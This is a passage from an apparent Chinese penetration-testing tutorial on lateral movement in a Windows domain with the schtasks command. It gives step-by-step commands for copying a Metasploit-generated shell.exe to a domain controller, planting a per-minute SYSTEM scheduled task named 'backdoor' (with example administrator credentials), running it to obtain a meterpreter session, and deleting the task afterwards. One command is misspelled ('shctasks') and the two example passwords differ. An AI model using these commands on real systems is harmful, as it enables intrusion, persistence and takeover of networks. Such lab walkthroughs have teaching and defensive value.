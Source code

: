 如上图所示，命令执行成功。

#### 利用 **schtasks 命令**

上面我们讲了用at命令创建计划任务，但是该命令已经被Windows Vista、Windows Server 2008及之后版本的操作系统废弃了，代替他的是schtasks命令。schtasks命令比at命令更为灵活、自由。下面来演示schtasks命令的使用，于是，攻击者开始时使用schtasks命令来代替at命令。

利用schtasks命令创建计划任务进行横向移动的操作流程如下:

> 1.先与目标主机建立ipc连接。
> 
> 2.然后使用copy命令远程操作，将metasploit生成的payload文件shell.exe复制到目标系统C盘中。
> 
> 3.在目标主机DC上创建一个名称为"backdoor"的计划任务。
> 
> 该计划任务每分钟启动一次，启动程序为我们之前到C盘下的shell.exe,启动权限为system。命令如下:
> 
> shctasks /create /s 192.168.183.130 /tn backdoor /sc minute /mo 1 /tr c:\\shell.exe /ru system /f

在没有建立ipc连接时，要加上/u和/p参数分别设置用户名和密码。

但也有些时候，由于当前权限或组策略设置等原因，该schtasks方法远程创建计划任务可能会报错拒绝访问:

![](https://i-blog.csdnimg.cn/blog_migrate/bdd3b524b3248fd8f08e09f3d55c8993.jpeg)

遇到这种情况，我们可以加上/u和/p参数分别设置高权限用户名和密码，如下:

```cobol
`schtasks /create /s 192.168.183.130 /u administrator /p Liu78963 /tn backdoor /sc minute /mo 1 /tr c:\shell.exe /ru system /f`




AI写代码
```

这样就行了:

![](https://i-blog.csdnimg.cn/blog_migrate/c3c3329c97a5ad7fec8aa702fc1ace6a.jpeg)

> 4.然后执行如下命令立即运行该计划任务(也可以自己等一分钟):
> 
> schtasks /run /s 192.168.183.130 /i /tn backdoor // i: 忽略任何限制立即运行任务
> 
> schtasks /run /s 192.168.183.130 /i /tn backdoor /u administrator /p Liu7893 //遇到上面所说的报错时执行加上/u和/p参数分别设置高权限用户名和密码

![](https://i-blog.csdnimg.cn/blog_migrate/10dd9edccbb5f6737bf392fd48e1ed4a.jpeg)

计划任务成功执行后，攻击者msfconsole上面即可得到目标主机DC的meterpreter:

![](https://i-blog.csdnimg.cn/blog_migrate/66f9c02f398cd20a8b19e342a2cc6e43.jpeg)

> 5.计划任务成功运行后，执行如下命令强制删除该计划任务:
> 
> schtasks /delete /s 192.168.183.130 /tn "backdoor" /f
